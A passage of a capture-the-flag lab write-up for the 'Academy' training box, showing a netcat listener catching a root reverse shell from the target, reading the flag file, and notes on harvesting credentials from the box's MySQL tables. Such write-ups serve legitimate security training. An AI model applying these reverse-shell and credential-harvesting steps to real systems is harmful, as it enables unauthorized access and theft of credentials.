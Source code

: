 Once you save the file, it should get executed w/i the next 2 minutes, and on your listener you should see:
```bash
nc -lvnp 44445
listening on [any] 44445 ...
connect to [10.0.2.4] from (UNKNOWN) [10.0.2.15] 34634
bash: cannot set terminal process group (18009): Inappropriate ioctl for device
bash: no job control in this shell
root@academy:~#          # <----------- 
```
## Flag
Once we're in as root, all we have to do is observe our surroundings:
```bash
root@academy:~# ls
ls
flag.txt
root@academy:~# cat flag.txt
cat flag.txt  
Congratz you rooted this box !  
Looks like this CMS isn't so secure...  
I hope you enjoyed it.   
If you had any issue please let us know in the course discord. 
Happy hacking !                                                                                   
root@academy:~#    
```
## Notes on other avenues:
Having tried this box *without watching the walkthrough first*, there are some other interesting avenues one could try. The walkthrough above is a combo of my own investigations + the walkthrough supplied by TCM.
### mysql
Once you've SSH'd into the target as Grimmie, you can access the [mysql](/CLI-tools/linux/mysql.md) database using the same password.
![](PNPT/PNPT-pics/academy-6.png)
![](/PNPT-pics/academy-6.png)
Some tasty tables in here include: `db` and `user`, both of which give you access to credentials.
